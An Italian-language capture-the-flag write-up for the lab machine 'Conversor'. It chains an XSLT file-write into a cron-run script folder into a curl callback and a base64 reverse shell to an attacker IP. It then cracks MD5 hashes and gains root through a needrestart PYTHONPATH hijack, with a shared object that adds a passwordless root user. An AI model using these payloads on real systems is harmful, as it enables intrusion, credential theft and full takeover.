



# **Conversor**


## **Reconnaissance**
Si aggiorna il file /etc/hosts associando l'indirizzo IP della macchina con il nome conversor.

Si enumerano le porte TCP aperte esposte dalla macchina target.
```bash
nmap -p- --min-rate 1000 conversor --open
```
```
Nmap scan report for conversor (10.10.11.92)
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 41.06 seconds
```

Si identificano i servizi esposti.
```bash
nmap -p22,80 -sCV conversor
```
```
Nmap scan report for conversor (10.10.11.92)
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:74:26:39:47:bc:6a:e2:cb:12:8b:71:84:9c:f8:5a (ECDSA)
|_  256 3a:16:90:dc:74:d8:e3:c4:51:36:e2:08:06:26:17:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://conversor.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: conversor.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 15.34 seconds
```

La macchina target espone i seguenti servizi:
- **OpenSSH 8.9p1** per **Ubuntu 22.04 (Jammy)** sulla porta 22/tcp
- **Apache 2.4.52** web server sulla porta 80/tcp

Si aggiorna il file /etc/hosts associando il server name **conversor.htb** all'indirizzo IP della macchina.
```text
10.10.11.92 conversor conversor.htb
```

## **Visiting the URL**
Si visita l'URL **http://conversor.htb/**.


Ci si registra alla piattaforma con le credenziali **user:P@ssword123** e si accede alla piattaforma.


La piattaforma permette di caricare file **.xml** e **.xlst**.





Nella sezione **About** e' possibile accedere al codice sorgente dell'applicazione web.


```bash
$ wget http://conversor.htb/static/source_code.tar.gz
```

```bash
$ tar --list -f source_code.tar.gz
```
```
app.py
app.wsgi
install.md
instance/
instance/users.db
scripts/
static/
static/images/
static/images/david.png
static/images/fismathack.png
static/images/arturo.png
static/nmap.xslt
static/style.css
templates/
templates/register.html
templates/about.html
templates/index.html
templates/login.html
templates/base.html
templates/result.html
uploads/
```

## **Source code Analysis**
Si analizza il file **app.py**.

`app.py`
```python
import os, sqlite3, hashlib, uuid

app = Flask(__name__)
app.secret_key = 'Changemeplease'

BASE_DIR = os.path.dirname(os.path.abspath(__file__))
DB_PATH = '/var/www/conversor.htb/instance/users.db'
UPLOAD_FOLDER = os.path.join(BASE_DIR, 'uploads')
os.makedirs(UPLOAD_FOLDER, exist_ok=True)

# ...code

@app.route('/convert', methods=['POST'])
def convert():
    if 'user_id' not in session:
        return redirect(url_for('login'))
    xml_file = request.files['xml_file']
    xslt_file = request.files['xslt_file']
    from lxml import etree
    xml_path = os.path.join(UPLOAD_FOLDER, xml_file.filename)
    xslt_path = os.path.join(UPLOAD_FOLDER, xslt_file.filename)
    xml_file.save(xml_path)
    xslt_file.save(xslt_path)
    try:
        parser = etree.XMLParser(resolve_entities=False, no_network=True, dtd_validation=False, load_dtd=False)
        xml_tree = etree.parse(xml_path, parser)
        xslt_tree = etree.parse(xslt_path)
        transform = etree.XSLT(xslt_tree)
        result_tree = transform(xml_tree)
        result_html = str(result_tree)
        file_id = str(uuid.uuid4())
        filename = f"{file_id}.html"
        html_path = os.path.join(UPLOAD_FOLDER, filename)
        with open(html_path, "w") as f:
            f.write(result_html)
        conn = get_db()
        conn.execute("INSERT INTO files (id,user_id,filename) VALUES (?,?,?)", (file_id, session['user_id'], filename))
        conn.commit()
        conn.close()
        return redirect(url_for('index'))
    except Exception as e:
        return f"Error: {e}"

# ...code
```

> **lxml** è una libreria Python per l'elaborazione di documenti XML e HTML e si basa sulla libreria C **libxslt** e **libxml2**.

Si aggiungono al template le seguenti informazioni:
```xml
Version: <xsl:value-of select="system-property('xsl:version')" /><br /> 
Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br /> 
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br />
```

E si ottiene come risultato:



> **libxslt** è una libreria C per XSLT sviluppata per il progetto GNOME.

Si ispeziona il file **install.md**:

`install.md`
```
To deploy Conversor, we can extract the compressed file:

"""
tar -xvf source_code.tar.gz
"""

We install flask:

"""
pip3 install flask
"""

We can run the app.py file:

"""
python3 app.py
"""

You can also run it with Apache using the app.wsgi file.

If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.

"""
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
"""
```

Nella cartella **/var/www/conversor.htb/scripts/** vengono eseguiti script **\*.py** con **crontab** ogni minuto.

Si può utilizzare il formato XLST per scrivere uno script Python nella cartella /var/www/conversor.htb/scripts/.

`test.xlst`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
          <exploit:document href="/var/www/conversor.htb/scripts/curl.py" method="text">
import os; os.system("curl http://10.10.16.56:9001/?q=hello");
          </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```

Si carica il file e prima di visualizzare il risultato si lancia sulla macchina Kali un server HTTP in ascolto sulla porta 9001 per accogliere la richiesta.


Funziona!

Si costrusice un file xlst per eseguire una reverse shell.
```text
/bin/bash -i >& /dev/tcp/10.10.x.x/4444 0>&1

# Base64 decoding and execution
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLngueC80NDQ0IDA+JjE= | base64 -d | bash
```

`test.xlst`
```python
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
          <exploit:document href="/var/www/conversor.htb/scripts/revshell.py" method="text">
import os; os.system("echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLngueC80NDQ0IDA+JjE= | base64 -d | bash");
          </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```

Si ottiene una reverse shell come **www-data**. 

## **Shell as www-data**
Si scarica sulla macchina Kali il file **users.db**.
```bash
www-data@conversor:~$ ls -lah conversor.htb/instance
total 32K
drwxr-x--- 2 www-data www-data 4.0K Oct 27 15:37 .
drwxr-x--- 8 www-data www-data 4.0K Aug 14 21:34 ..
-rwxr-x--- 1 www-data www-data  24K Oct 27 15:37 users.db
```

Si ispeziona il contenuto del db.
```
sqlite> .tables
files  users

sqlite> PRAGMA table_info(users);
0|id|INTEGER|0||1
1|username|TEXT|0||0
2|password|TEXT|0||0

sqlite> SELECT * FROM users;
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
5|foxer|5f4dcc3b5aa765d61d8327deb882cf99
6|user|2c103f2c4ed1e59c0b4e2e01821770fa
7|testuser|179ad45c6ce2cb97cf1029e212046e81
8|admin|21232f297a57a5a743894a0e4a801fc3
9|test|ceb6c970658f31504a901b89dcd3e461
```

Dal file **app.py** si ha che le password vengono computate con MD5.

`app.py`
```python
password = hashlib.md5(request.form['password'].encode()).hexdigest()
```

Si tenta il cracking delle password.
```bash
$ hashcat -a 0 -m 0 password.hash /usr/share/wordlists/rockyou.txt.gz --show
```
```text
5b5c3ac3a1c897c94caad48e6c71fdec:Keepmesafeandwarm
5f4dcc3b5aa765d61d8327deb882cf99:password
179ad45c6ce2cb97cf1029e212046e81:testpass
21232f297a57a5a743894a0e4a801fc3:admin
```

Le password corrispondono ai seguenti utenti:
- **fismathack:Keepmesafeandwarm**
- **foxer:password**
- **testuser:testpass**
- **admin:admin**

Si enumerano gli utenti che hanno accesso alla shell.
```bash
www-data@conversor:~$ cat /etc/passwd | grep -E sh$
```
```text
root:x:0:0:root:/root:/bin/bash
fismathack:x:1000:1000:fismathack:/home/fismathack:/bin/bash
```

Si tenta l'accesso tramite SSH con **fismathack:Keepmesafeandwarm**.


## **Shell as fismathack**
Si accede al file **user.txt**.

```bash
fismathack@conversor:~$ cat user.txt
```
```
e63323123a696265a76f969f653c7c6b
```

## Privilege Escalation
Si analizzano i privilegi dell'utente fismathack.
```bash
fismathack@conversor:~$ sudo -l
```
```
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

Quale versione di needrestart?
```bash
fismathack@conversor:~$ sudo /usr/sbin/needrestart --version
```
```
needrestart 3.7 - Restart daemons after library updates.

Authors:
  Thomas Liske <thomas@fiasko-nw.net>

Copyright Holder:
  2013 - 2022 (C) Thomas Liske [http://fiasko-nw.net/~thomas/]

Upstream:
  https://github.com/liske/needrestart

This program is free software; you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation; either version 2 of the License, or
(at your option) any later version.
```

### **CVE-2024-48990**
Le versioni di needrestart <3.8 sono vulnerabili ad attacchi di tipo **Path Hijacking**.

Per determinare se un processo Python debba essere riavviato, needrestart estrae dal processo la variabile d'ambiente PYTHONPATH. Il problema è che needrestart utilizza la variabile PYTHONPATH del processo per eseguire Python.

Quindi, si può definire una shared library per eseguire codice con i privilegi di root di needrestart.

> LPEs in needrestart (CVE-2024-48990, CVE-2024-48991, CVE-2024-48992,
CVE-2024-10224, and CVE-2024-11003) - Qualys Security Advisory [https://www.qualys.com/2024/11/19/needrestart/needrestart.txt](https://www.qualys.com/2024/11/19/needrestart/needrestart.txt)

Si procede come segue:
1. Si costruisce una libreria per l'esecuzione di codice arbitrario, ad esempio per aggiungere un record al file /etc/passwd.
2. Si compila il codice della libreria.
3. Si costruisce uno script Python che dovrà essere rilevato da needrestart.
4. Si esegue lo script Python specificando alla variabile d'ambiente PYTHONPATH il percorso per raggiungere la libreria malevole.
5. Si esegue la scansione con needrestart.

Allora si costruisce il file **exploit.c**.

`exploit.c`
```c
#include <unistd.h>
#include <stdlib.h>
#define CMD "echo 'pwn::0:0:root:/root:/bin/bash' >> /etc/passwd"
__attribute__((constructor))
int init(){
        setuid(0);
        setgid(0);
        int exit = system(CMD);
        return exit;
}
```

Si compila il file **exploit.c** per ottenere uno **shared object** denominato **\_\_init\_\_.so**.
```bash
$ gcc -o __init__.so -shared -fPIC exploit.c
```
```bash
$ file __init__.so 
```
```
__init__.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=254dc8d967058c6cfc12af49d4ac8a02ea298949, not stripped
```

Si costruisce lo script Python **exploit.py**.
```python
import time
time.sleep(3 * 60) 
```

Si crea la cartella **/exploit/importlib/** per la libreria.
```bash
fismathack@conversor:~$ mkdir -p $(pwd)/exploit/importlib/
```
Si caricano sulla macchina target i file necessari per l'exploit.
```bash
fismathack@conversor:~$ nc -lvnp 9001 > $(pwd)/exploit/importlib/__init__.so
```
```bash
$ cat __init__.so | nc conversor.htb 9001
```
```bash
fismathack@conversor:~$ nc -lvnp 9001 > $(pwd)/exploit/exploit.py
```
```bash
$ cat exploit.py | nc conversor.htb 9001
```

Si esegue lo script Python ed il Path Hijacking Attack, ed infine si lancia needrestart.
```bash
fismathack@conversor:~$ PYTHONPATH=$(pwd)/exploit python3 ./exploit/exploit.py &                
```
```bash
fismathack@conversor:~$ sudo /usr/sbin/needrestart -r a -v
```


Si ottiene una shell come root con l'utente pwn.

```bash
fismathack@conversor:~$ su pwn
```
```
root@conversor:/home/fismathack# id
uid=0(root) gid=0(root) groups=0(root)
```

## **Shell as root**

Si accede al contenuto del file **root.txt**.
```bash
root@conversor:/home/fismathack# cat /root/root.txt
```
```
acd48e2710725da31b35e79c8ddc830c
```
